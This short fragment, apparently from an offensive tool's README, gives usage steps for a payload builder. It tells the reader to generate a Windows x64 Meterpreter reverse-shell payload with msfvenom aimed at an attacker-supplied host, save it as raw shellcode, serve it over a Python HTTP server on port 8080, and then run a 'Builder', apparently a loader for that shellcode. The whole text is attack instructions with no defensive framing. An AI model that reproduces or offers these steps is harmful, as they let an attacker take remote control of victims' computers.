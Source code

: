 # This is a simple shellcode, to use it, just give the following commands:
msfvenom -p windows/x64/meterpreter/reverse_winhttp LHOST=<host> LPORT=8080 EnableStageEnconding=True -f raw > /home/parrot/x64shellcode.raw
python3 -mhttp.server 8080
# After this, Execute the Builder!
